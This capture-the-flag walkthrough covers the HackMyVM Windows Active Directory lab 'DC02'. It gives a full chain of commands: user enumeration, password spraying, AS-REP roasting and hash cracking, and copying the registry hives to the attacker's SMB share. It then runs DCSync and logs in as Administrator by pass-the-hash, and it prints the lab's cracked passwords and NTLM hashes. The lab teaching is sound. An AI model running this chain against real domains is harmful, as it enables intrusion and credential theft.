 ```yaml
---
date: 2024-11-18
categories: [Windows, Medium, AD]
---
```


![dc02](https://github.com/user-attachments/assets/51f02db3-68ff-4ca1-a504-8cbff7c05ab8)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [josemlwdf](https://hackmyvm.eu/profile/?user=josemlwdf)         | [HackMyVm](https://hackmyvm.eu)     | Medium           | Windows   |

---






- I start with a scan of the open ports.
    
    ```
    nmap -p- --open --min-rate 5000 -sS -Pn 10.0.2.4 -oG scan
    ```
    
    ![Pasted image 20241117162625](https://github.com/user-attachments/assets/c3523df1-7d22-4d75-aa1d-7bcc7b33d816)

    
- I continue with a scan of the versions and technologies that are running on the open ports that we have found.
    
    ```
    nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49671,49686 -sCV -Pn 10.0.2.4 -oN ports
    ```

	![Pasted image 20241117163045](https://github.com/user-attachments/assets/68b0d7a3-441c-47d5-bfbc-8035dd97d84f)

    
- Using kerbrute I search for valid users in the system.
	
	```python
	./kerbrute_linux_386 userenum --dc 10.0.2.5 -d SOUPEDECODE.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
	```
	
	![Pasted image 20241117214816](https://github.com/user-attachments/assets/e7a693ff-e980-412b-a1f4-d4811ca1cacc)


- With the found users I check if any of them have the same user name as their password. I find that charlie meets this and then I can list resources by smb.
	
	```python
	netexec smb 10.0.2.5 -u users -p users --continue-on-success | grep -v "[-]"
	```
	
	![Pasted image 20241117215026](https://github.com/user-attachments/assets/c61c8e26-81bd-4927-af5c-5446bbd23d2b)


	![Pasted image 20241117215122](https://github.com/user-attachments/assets/12973b7b-ec0a-40af-9f2a-3150b36fd1e9)


- By having read permissions on the IPC$ folder, I can list system users. I pass the users found by kerbrute in case any user uses as password the same user name but this time I can not find any.

	```python
	impacket-lookupsid  SOUPEDECODE.LOCAL/charlie:charlie@10.0.2.5
	
	/opt/kerbrute_linux_386 userenum --dc 10.0.2.5 -d SOUPEDECODE.LOCAL  -u usuarios valid_users -p valid_users
	
	netexec smb 10.0.2.5 -u valid_users -p valid_users --continue-on-success | grep -v "[-]"
	```

- I am trying to get TGT tickets from users that have “Do not require Kerberos preauthentication” set. I get an encrypted hash of the user zximena448.
	
	```python
	impacket-GetNPUsers SOUPEDECODE.LOCAL/ -no-pass -usersfile valid_users | grep -v "[-]"
	```
	
	![Pasted image 20241118104532](https://github.com/user-attachments/assets/3f0fded8-84f3-4a00-9b24-0a9ddb14ae12)


- I try to crack the hash and get the user's password in clear text.

	```
	john --wordlist=/usr/share/wordlist/rockyou.txt asrproast
	```
	
	![Pasted image 20241118155304](https://github.com/user-attachments/assets/06170f92-27d9-4999-ab82-352eb1587fd9)


- With this new credential I check if I can list resources by smb. Seeing that I am able to list all the shared folders I move to this user's desktop and get to read the first flag.
	
	![Pasted image 20241118105032](https://github.com/user-attachments/assets/4c1b0452-c3cc-4156-b986-86bcecf89efe)

	![Pasted image 20241118105059](https://github.com/user-attachments/assets/7680a829-6bbf-427d-8d92-03291ed7a277)

	![Pasted image 20241118111824](https://github.com/user-attachments/assets/d49a0e08-793e-4f33-805a-fc26eaabf45a)


- With these credentials I enumerate the system and I see that the user zximena448 belongs to the “Backup Operators” group. Thanks to this I can make copies and restore any file on the system.

	```python
	ldapdomaindump -u 'SOUPEDECODE.LOCAL\zximena448' -p 'internet' 10.0.2.6
	```
	
	![Pasted image 20241118162943](https://github.com/user-attachments/assets/b2dc3d22-537f-49c9-aa5f-375009a30d24)


* I share a resource by smb on my machine to make a copy of system, security and sam from the victim to my machine. To do this I make use of the tool [backup_dc_registry](https://github.com/horizon3ai/backup_dc_registry) and then with secretsdump I show the system hashes.

	```python
	impacket-smbserver recurso $(pwd) -smb2support 
	
	./reg.py zximena448:'internet'@10.0.2.5 backup -p '\\10.0.2.15\recurso'
	
	impacket-secretsdump LOCAL -system SYSTEM -security SECURITY -sam SAM
	```
	
	![Pasted image 20241118120358](https://github.com/user-attachments/assets/7eaf19dd-d0aa-4e0b-8b2d-a9160e127950)


- With the hash found for the user MACHINE.ACC I check if it belongs to any of the previously found users. I see that it is valid for user DC01$. 
	
	```python
	crackmapexec  smb 10.0.2.5 -u /home/rufo/nmap/users  -H "e74903d9cb1e9cc65339d50fe168a349" | grep -v "[-]"
	```
	
	![Pasted image 20241118130310](https://github.com/user-attachments/assets/315556f4-d0aa-4fa0-a8f8-734ac4a4307d)


- With these credentials I do a DCSync attack and manage to obtain all the hashes of the system.
	
	```python
	netexec  smb 10.0.2.5 -u "DC01$"  -H "e74903d9cb1e9cc65339d50fe168a349" --ntds
	```
	
	![Pasted image 20241118131237](https://github.com/user-attachments/assets/09bcc316-7b87-4bf6-8b0e-c47ab72eaf15)


- I do pass-the-hash (PtH) with the Administrator users and I manage to read the second flag.
	
	![Pasted image 20241118131514](https://github.com/user-attachments/assets/c3b5be4b-4e7a-468b-915a-a739a22cfc4c)

	![Pasted image 20241118131549](https://github.com/user-attachments/assets/e9b48170-b75d-499a-96ec-af689dda1aac)

	
	```python
	evil-winrm -i 10.0.2.5 -u Administrator -H "8982babd4da89d33210779a6c5b078bd"
	```
	
	![Pasted image 20241118131656](https://github.com/user-attachments/assets/c283cd6c-6fef-46d5-9462-8a14c929a936)





